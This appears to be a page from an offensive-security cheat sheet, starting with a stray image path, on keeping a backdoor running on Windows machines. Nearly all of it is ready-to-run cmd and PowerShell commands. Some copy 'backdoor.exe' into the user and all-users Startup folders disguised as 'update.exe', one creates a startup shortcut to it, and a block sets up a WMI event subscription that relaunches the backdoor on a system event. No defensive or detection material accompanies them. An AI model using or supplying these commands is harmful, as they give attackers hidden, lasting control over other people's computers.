 ## Startup Folder Persistence

### 1. User Startup Folder
```cmd
# Copy backdoor to user startup folder
copy "C:\Windows\System32\backdoor.exe" "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.exe"

# PowerShell copy
Copy-Item "C:\Windows\System32\backdoor.exe" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\update.exe"

# Create shortcut in startup folder
powershell "$WshShell = New-Object -comObject WScript.Shell; $Shortcut = $WshShell.CreateShortcut('$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk'); $Shortcut.TargetPath = 'C:\Windows\System32\backdoor.exe'; $Shortcut.Save()"
```

### 2. All Users Startup Folder (Admin Required)
```cmd
# Copy to all users startup (requires admin)
copy "C:\Windows\System32\backdoor.exe" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.exe"

# PowerShell copy for all users
Copy-Item "C:\Windows\System32\backdoor.exe" "$env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\StartUp\update.exe"
```

## WMI Persistence

### 1. WMI Event Subscription
```powershell
# Create WMI event filter (trigger)
$Filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
    Name = "SystemStartupFilter"
    EventNameSpace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"
} -ErrorAction Stop

# Create WMI event consumer (action)
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name = "SystemStartupConsumer"
    CommandLineTemplate = "C:\Windows\System32\backdoor.exe"
} -ErrorAction Stop

# Bind filter to consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
    Filter = $Filter
    Consumer = $Consumer
} -ErrorAction Stop
```
